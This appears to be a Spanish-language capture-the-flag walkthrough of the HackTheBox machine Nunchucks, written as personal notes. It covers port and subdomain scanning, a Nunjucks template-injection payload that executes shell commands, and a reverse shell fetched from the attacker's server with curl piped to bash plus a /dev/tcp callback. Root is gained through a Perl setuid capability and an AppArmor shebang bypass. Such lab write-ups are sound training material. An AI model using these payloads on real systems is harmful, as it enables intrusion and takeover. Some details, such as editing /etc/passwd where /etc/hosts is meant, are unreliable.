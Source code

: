 ## Summary

Tags: #Linux #HTTPS #Fuzzing #SSTI #Capabilities #Nmap 

- IP -> 10.10.11.122
- Ports -> TCP (22,80,443), UDP (idk)
- OS ->  Linux
- Services & Applications
    - 22 -> OpenSSH 4ubuntu0.3
    - 80 -> HTTP nginx 1.18.0
    - 443 -> HTTPS nginx 1.18.0

## Recon
Launchpad 4ubuntu0.3 -> Bionic
Launchpad nginx 1.18.0 -> Hirsuite 
Dentro de la maquina lo podremos averiguar 

❯ **nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.122  -oG allPorts**
❯ **nmap -sCV -p22,80 10.10.11.122 -oN targeted**

❯ **whatweb \http://10.10.11.122**  -> Nos dara una breve descripcion del gestor de contenidos del puerto 80
* Nos manda u re-direct, por lo tanto vamos a agregar la url **nunchucks.htb** a nuestro /etc/passwd 

❯ **openssl s_client -connect 10.10.11.122:443** Para conectarnos al openssl e inspeccionar el certificado del puerto 443

Ahora nos disponemos a ver la paginas web en el navegador 
En el Wapalyzer podemos ver en 
* Lenguaje de programacion: **Node.js**

Encontramos un **Log in** pero no nos podemos loggear ni registrarnos
Ahora hacemos Fuzzing para buscar subdominios
❯ **gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --url \https://nunchucks.htb -t 200** **-k** 
* Nos descubre un subdominio **store.nunchucks.htb**

❯ **wfuzz -c --hc=404 --hh=30587 -t 200 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H “Host: FUZZ.nunchucks.htb” \https://nunchucks.htb**

Despues agregamos ese dominio a nuestro **/etc/passwd** y lo miramos en el navegador web

Nos pide que ingresemos un email, al momento de hacerlo vemos que nos devuleve el email en la pantalla de la pagina web.
Por lo que estamos frente a un **Server Side Template Injection** en node.js, por lo que procedemos a buscar en **Google** (**node.js** **nunjunks** **ssti** **(https://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine)**) el cual nos dara ejemplos de como usar esa vulnerabilidad.

Encontramos estos comando para poder introducisrlos en la pagina web.
{{7*7}}@test.com Si nos muestra la respuesta en este caso 49, estamos ante un SSTI, colocamos el @test.com por que es un requisito de que lo que entra es un correo electronico.

Ahora en la misma pagina de nunjunks nos dice que comando podemos colocar para poder injectar un comando
❯ **{{range.constructor("return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')")()}}@test.com**
* Tail -> Es para leer las ultimas 10 lineas de un archivo
Como esa entrada no se adecua a lo que nos indica que es de un correo, nos disponemos a abrir BurpSuite y desde ahi lo haremos 

❯ **burpsuite &> /dev/null &** Iniciamos el BurpSuite y lo mandamos a segundo plano
❯ **disown** Para independizar el proceso del BurpSuite
Lo que interceptemos lo mandamos al Repeater:
❯ **Ctrl + r** Para mandar lo del proxy al repeater

Esto lo colocaremos en el campo donde esta email, ademas debemos de escapar las comillas dobles internas
“**email”:”{{range.constructor(\\"return global.process.mainModule.require('child_process').execSync('whoami')\\")()}}@test.com”**
Nos muestra el **whoami** de la maquina victima 

Como podemos ejecutar comandos, primero verificamos si podemos hacernos una peticion con **Curl** si es asi enconces podriamos hacernos una ReverShell para poder ganar acceso al sistema

❯ **python3 -m http.server 80** Nos montamos un servidor http 80
“**email”:”{{range.constructor(\\"return global.process.mainModule.require('child_process').execSync('curl 10.10.14.2')\\")()}}@test.com”** Hacemos una peticion GET desde el servidor web

Lo que trata de hacer la maquina al momento de ejecutar el **Curl** es tratar de obtener un **index.html** del servidor web. Por lo que nos disponemos a hacer un archivo que contenga una ReverShell y asi con Netcat podemos ganar acceso al sistema 

❯ **nano index.html**
	**#!/bin/bash**
	**bash -i >& /dev/tcp/10.10.14.2/443 0>&1**


## User
❯ **python3 -m http.server 80** Nos montamos un servidor http 80
❯ **nc -nlvp 443** Para ponernos en escucha por Netcat en espera de la revershell para Linux
“**email”:”{{range.constructor(\\"return global.process.mainModule.require('child_process').execSync('curl 10.10.14.2 | bash')\\")()}}@test.com”** Hacemos una peticion GET desde el servidor web para obtener el index.html malicioso y despues hacer que nos lo interprete con Bash

* Hacemos el tratamiento de la consola y buscamos la primer flag -> user.txt

❯ **lsb_release -a** Miramos algunas caracteristicas de la maquina Linux 
❯ **hostname -I** Nos muestra solo la direccion IP (I=i mayuscula)


## Root
❯ **uname -a** Miramos informacion del Kernel
❯ **find / -perm -4000 2>/dev/null** Buscaremos por privilegios suid
❯ **id** Para ver si estamos en un grupo especial

❯ **which getcap** Para ver si esta instalado el Getcap y mirar las capabilities
❯ **getcap -r / 2>/dev/null** Listamos las capabilities que existan desde la raiz de forma recursiva y buscamos el comando aqui GTFOBins [GTFOBins](https://gtfobins.github.io/)
* **/usr/bin/perl = cap_setuid+ep** Esta capabilitie nos permite gestionar el UID
	❯ **setcap cap_setuid+ep /usr/bin/perl** 
	❯ **perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'** Para conseguir la consola interactiva

Pero esto no funciona por lo que buscamos **Apparmor** que es modulo de seguridad del Kernel Linux que permite al administrador del sistema restringir las capabilities de un programa.

❯ **find \-name \*apparmor\* 2>/dev/null** | grep -vE “proc|var|share”** (vE=quitas multiples palabras)

Ahi buscamos
❯ **/etc/apparmor.d** y nos dirigimos a esa ruta con el comando cd. 

Miramos el siguiente archivo 
❯**cat usr.bin.perl** para ver el contenido del archivo y dentro hay un archivo que esta ejecutando un script en perl. 
Por lo que miramos su contenido **/opt/backup.pl**

Despues probamos el siguiente comando
❯ **perl /opt/backup.pl** Este comando solo se puede ejecutar y leer pero no podemos modificarlo, por lo que debemos de buscar un bug para poder entrar.

Buscamos en **Google (apparmor perl bugs)** y nos vamos a la siguiente pagina **bugs.launchpad.net**.
**Shebang** es el nombre que recibe el par de caracteres #! que se encuentran en el inicio de los programas ejecutables interpretados

❯ **cd /tmp/** Nos vamos al directorio tmp ya ahi tenemos ejecucion y lectura 

❯ **touch prueba.sh** Creamos el archivo y nos ayudara a tener una consola interactiva 
	#!/usr/bin/perl
	**use POSIX qw(setuid);**
	**POSIX::setuid(0);**
	**exec "****/bin/sh";

❯ **chmod** **+x prueba.sh** la ejecucion
❯ **./prueba.sh** Ejecutamos el comando anterior.

Despues de ser root nos vamos al directorio con **cd /root/** y obtenemos la flag root.txt





